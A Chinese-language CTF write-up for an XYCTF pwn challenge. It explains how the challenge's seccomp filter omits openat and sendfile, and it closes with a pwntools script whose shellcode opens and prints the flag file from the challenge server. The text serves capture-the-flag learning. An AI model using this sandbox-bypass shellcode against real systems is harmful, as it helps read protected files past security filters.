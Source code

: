 xyctf

![image-20240407174232106](./image-20240407174232106.png)

patch一下elf

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712480698880-5645a2a5-0e94-474c-af8e-66a3951eb0db.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712480718526-e904d945-9e3c-42e0-8540-49b7b71ea5a0.png)

![image-20240407173121492](./image-20240407173121492.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712480667738-a993cd1e-4b29-4c6f-bd93-9a4312c1e03a.png)

禁用了open但是没有禁用openat,禁用了 read, write, readv, writev但是没有禁用sendfile，这样我们可以用openat打开文件，用sendfile将文件内容打印到标准输出

用Anti师傅给的网址看一下两个函数的构造	https://man7.org/linux/man-pages/man3/openat.3p.html

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712480900311-506dc063-81fc-4989-885b-69ffcf0699fd.png)![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712480953652-a4544736-c4d9-4062-9bef-01594c7a3bc9.png)

查了一下，openat的第一个参数fd可以填AT_FDCWD(-100)来使得我们可以使用相对路径![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712481028547-e8d0d668-8214-4000-a23a-39deb1e0d204.png)

构造openat(-100, 'flag\x00\x00\x00', 0)	

一开始没有将第三个参数置零，打不通，参考了一下这篇博客中的写法

[https://surager.pub/_posts/2020-06-27-%E4%BB%8EDASCTF6%E6%9C%88%E8%B5%9B%E4%B8%AD%E5%AD%A6%E4%B9%A0setcontext%E7%BB%95%E8%BF%87seccomp/](https://surager.pub/_posts/2020-06-27-从DASCTF6月赛中学习setcontext绕过seccomp/)

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712481213655-dc08a60c-89d6-48b3-9ea8-e5bddb8ea010.png)

然后就是sendfile(1, 3, 0, 40)

其中1和3是两个fd，0是in_fd文件要读入的内容距文件开始的偏移，40是要传输的字节

然后就是很坑的一个地方，这里的40是用的r10来传而不是rcx（64位传参顺序rdi, rsi, rdx, rcx, r8, r9），在动调的时候总是只能输出一个字符，发现r10总是1，我就尝试将r10改为1，然后一次成功

![img](https://cdn.nlark.com/yuque/0/2024/png/43215784/1712481421430-f7a00dff-7853-4f42-a7ae-e0a280c99a3e.png)



```python
from pwn import *

# io = process("./vuln")
io = remote("xyctf.top", )
# gdb.attach(io)
context(os="linux", arch="amd64")
# context(os="linux", arch="amd64", log_level="debug")

__NR_openat = 257
__NR_sendfile = 40

shellcode = '''
push -100
pop rdi
mov rax, %s
push rax
mov rsi, rsp
mov rdx, 0
push 257
pop rax
syscall

push 1
pop rdi
push 3
pop rsi
push 0
pop rdx
mov rax, 40
push rax
mov r10, rsp
push 40
pop rax
syscall
''' % hex(u64('./flag\x00\x00'))

io.sendline(asm(shellcode))

io.interactive()
```
